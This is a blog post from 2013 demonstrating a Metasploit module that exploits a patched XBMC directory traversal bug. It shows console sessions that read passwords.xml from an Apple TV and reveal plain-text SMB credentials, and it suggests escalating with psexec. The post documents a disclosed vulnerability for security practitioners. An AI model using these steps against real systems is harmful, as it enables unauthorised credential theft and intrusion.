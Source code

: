 ```yaml
---
layout: post
title: "XBMC Traversal Metasploit Module"
date: 2013-02-25T15:32:00-05:00
comments: true
categories:
 - directorytraversal
 - metasploit
 - hacking
 - exploit
---
```


## Background

I was talking in [Intern0t](irc://chat.freenode.net:6667/intern0t) several months ago. [AcidGen](https://twitter.com/Acidgen), from [IOActive](http://www.ioactive.com) mentioned that he found a bug in [XBMC](http://www.xbmc.org). I use [XBMC](http://www.xbmc.org) quite a bit at home, on various platforms, since it's extremely wife-friendly. I hit him up, and we started talking. We had a nice Skype conversation, where we discussed possible platforms that were affected, and future exploits that we'd like to find. Since I had a jailbroken [Apple TV 2](https://www.apple.com/appletv) and [RaspberryPi](http://www.raspberrypi.org), I told him that I could test those platforms and help out. 

<!-- more -->

An [official disclosure](http://www.ioactive.com/pdfs/Security_Advisory_XBMC.pdf) was released, detailing the directory traversal vulnerability. The [XBMC](http://www.xbmc.org) team was able to make a [fix](https://github.com/xbmc/xbmc/commit/bdff099c024521941cb0956fe01d99ab52a65335), and the new version 12 is not vulnerable.

## Why does this vulnerability matter?

When talking with the [XBMC](http://www.xbmc.org), they seemed to play off the vulnerability, because they believed nobody would ever expose this service to a public network. However, a quick [ShodanHQ](http://www.shodanhq.com/search?q=xbmc) search shows that people are exposing it. But you may say, "Matt, this is only a directory traversal vulnerability, what are you going to do, steal someone's MP3s?". The issue here, lies in that if you can read any file on the system, that may include password files, such as /etc/passwd or even /etc/shadow if the service runs as root. What makes this even worse, is that due to how XBMC has to pass credentials to a fileserver, it stores the credentials in plain text. This gives an attacker a <i>huge</i> advantage. They now have valid credentials on at least one system. If the system has SMB exposed as well, it could easily be game-over.

## Let's see the exploit...

I don't know why it took so long, but I finally finished the MSF module for this vulnerability. It can be found [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/gather/xbmc_traversal.rb). The usage is pretty simple. Here is a sample exploitation against an [Apple TV 2](https://www.apple.com/appletv).

As usual, watch the pretty ASCII-art go by, and use the module. 

```
420-1572-man:gather mandreko$ msfconsole
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v4.6.0-dev [core:4.6 api:1.0]
+ -- --=[ 1048 exploits - 590 auxiliary - 174 post
+ -- --=[ 275 payloads - 28 encoders - 8 nops

msf > use auxiliary/gather/xbmc_traversal
msf  auxiliary(xbmc_traversal) >
</pre>Check out the options. You'll see the username and password that need to be set (however it's often defaulted to "xbmc", as well as the host, and file to disclose. 
<pre>msf  auxiliary(xbmc_traversal) > show options

Module options (auxiliary/gather/xbmc_traversal):

   Name      Current Setting                                                      Required  Description
   ----      ---------------                                                      --------  -----------
   DEPTH     9                                                                    yes       The max traversal depth
   FILEPATH  /private/var/mobile/Library/Preferences/XBMC/userdata/passwords.xml  no        The name of the file to download
   PASSWORD  xbmc                                                                 yes       The password to use for the HTTP server
   Proxies                                                                        no        Use a proxy chain
   RHOST                                                                          yes       The target address
   RPORT     8080                                                                 yes       The target port
   USERNAME  xbmc                                                                 yes       The username to use for the HTTP server
   VHOST                                                                          no        HTTP server virtual host

msf  auxiliary(xbmc_traversal) >
```

Go ahead and set the RHOST to the XBMC server. 

```
msf  auxiliary(xbmc_traversal) > set rhost 192.168.1.102
rhost => 192.168.1.102
msf  auxiliary(xbmc_traversal) >
```

Lastly, run the exploit 

```
msf  auxiliary(xbmc_traversal) > run

[+] File saved in: /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
[*] Auxiliary module execution completed
msf  auxiliary(xbmc_traversal) >
```

You can see this was successful. It saved the file locally, and added notes in [Metasploit](http://www.metasploit.com). Just to verify the findings, you can read the file it saved. 

```
msf  auxiliary(xbmc_traversal) > cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml
```

```
[*] exec: cat /Users/mandreko/.msf4/loot/20130223100731_default_192.168.1.102_xbmc.http_604967.xml

<passwords>
    <path>
        <from pathversion="1">smb://192.168.1.2/Movies</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Movies/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/tv</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/tv/</to>
    </path>
    <path>
        <from pathversion="1">smb://192.168.1.2/Music</from>
        <to pathversion="1">smb://xbmc:xbmc@192.168.1.2/Music/</to>
    </path>
</passwords>
msf  auxiliary(xbmc_traversal) >
```

And there you have it. You now have valid credentials on that fileserver. You could start escalating with psexec or other methods. Half the battle is already over.